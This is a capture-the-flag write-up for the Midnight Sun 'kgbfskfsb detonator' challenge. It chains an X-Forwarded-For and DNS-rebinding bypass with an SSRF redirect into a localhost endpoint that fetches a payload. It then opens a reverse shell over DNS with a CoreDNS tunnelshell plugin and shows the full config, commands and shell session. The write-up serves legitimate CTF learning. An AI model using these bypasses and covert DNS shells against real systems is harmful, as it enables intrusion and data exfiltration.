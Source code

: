#Exploitation

## Putting together the inital request:

1) X-Forwarded-For bypass:
Include the header with the IP

2) IP check bypass:
-Include multiple IPs in a domain entry or use DNS rebinding (like rbndr.us). DNS Rebinding was the intended solution

3) How to use /detonate and satisfy the 127.0.0.1 ip check:

Send a 302 redirect to launch an SSRF attack against the webserver, into the detonate endpoint.

python3 redir.py 80 http://127.0.0.1:15555/detonate?name=supersecretabc123xyz\&url=http://0x0y0z/payload

Our trigger looks like this
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/

## Stage 2 -- Detonator
0) Set up a recursive domain name server with your registrar

see https://www.splitbrain.org/blog/2008-11/02-dns_tunneling_made_simple



The hint for the challenge says `DeNiS Sergeev wants a secret mission payload.`, alluding to DNS. 

1) Run coredns with the https://github.com/adc/coredns-tunnelshell plugin installed. 

You can use a configuration like this:
```
tunnel.yourdomain.com {
  hosts {
	95.173.136.72 kgb.tunnel.yourdomain.com
	1.2.3.4 kgb.tunnel.yourdomain.com
	fallthrough
  }

  tunnelshell

  log
  errors
}

#./coredns -conf config

```

```
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/
```


2) Connect to the coredns socket and wait for a connection to show up
nc localhost 1337

In coredns you'll know when the reverse tunnel works when you see requests coming in
```
[INFO] 162.158.104.220:34913 - 24862 "TXT IN 2420-0-660faeac.tunnel.yourdomain.com. udp 63 true 1452" NOERROR qr,aa 100 0.000447496s
[INFO] 162.158.104.148:59983 - 7850 "TXT IN 00-1-2317440.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000248969s
[INFO] 162.158.104.148:22594 - 53984 "TXT IN 00-2-5d586564.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000110636s
[INFO] 162.158.104.148:63962 - 48204 "TXT IN 00-3-105ae3a3.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00010058s
[INFO] 162.158.104.149:65071 - 57369 "TXT IN 00-4-22e00cc.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000239648s
[INFO] 162.158.104.148:29410 - 15723 "TXT IN 00-5-6c60fe9a.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00022385s
[INFO] 162.158.104.220:46404 - 39031 "TXT IN 00-6-4aae60dc.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000100155s
```

```
bash-3.2# nc localhost 1337
[+] connected to coredns-tunnelshell

$ uname -a
Linux dbed26620181 5.17.0-051700-generic #202203202130 SMP PREEMPT Sun Mar 20 21:33:41 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
$ ls
bin	     etc    lib64				 mnt   run   tmp
boot	     home   libx32				 opt   sbin  usr
detonations  lib    media				 proc  srv   var
dev	     lib32  midnightsun.ctf.kgbfskfsb_detonator  root  sys
$ ls -al
total 6416
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 .
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 ..
drwxr-xr-x   1 root   root    4096 Apr  4 04:30 .do
-rwxr-xr-x   1 root   root       0 Apr  4 04:31 .dockerenv
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 bin -> usr/bin
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 boot
drwxr-xr-x   2 nobody root    4096 Apr  4 04:20 detonations
drwxr-xr-x   5 root   root     340 Apr  4 04:31 dev
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 etc
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 home
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 lib -> usr/lib
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root      10 Mar 15 11:49 libx32 -> usr/libx32
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 media
-rwxr-xr-x   1 root   root 6501290 Apr  4 04:30 midnightsun.ctf.kgbfskfsb_detonator
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 mnt
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 opt
dr-xr-xr-x 418 root   root       0 Apr  4 04:31 proc
drwx------   2 root   root    4096 Mar 15 11:52 root
drwxr-xr-x   5 root   root    4096 Mar 15 11:52 run
lrwxrwxrwx   1 root   root       8 Mar 15 11:49 sbin -> usr/sbin
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 srv
dr-xr-xr-x  13 root   root       0 Apr  4 04:31 sys
drwxrwxrwt   1 root   root    4096 Apr  3 00:05 tmp
drwxr-xr-x  14 root   root    4096 Mar 15 11:49 usr
drwxr-xr-x   1 root   root    4096 Mar 15 11:52 var
$ ls -R .do
.do:
you

.do/you:
see

.do/you/see:
the

.do/you/see/the:
answer

.do/you/see/the/answer:
runme
$ .do/you/see/the/answer/runme
1070352547 +1 = ?
1070352548
midnight{flag}

```


## MISC:

Some teams were using chashell and it failed for them. Chashell has a bug where they dont set the authoritative flag.
You can patch their server code with	

```
m.MsgHdr.Authoritative = true 
```


## Other solutions

Some teams decided to re-exploit 'kgbfskfsb' as an alternative to DNS. This is a bit harder and unreliable, but a very valid
way to exfiltrate data back out of the system. When exploiting the service it would fetch the team's URL to relay information.

The docker set up does not stop this




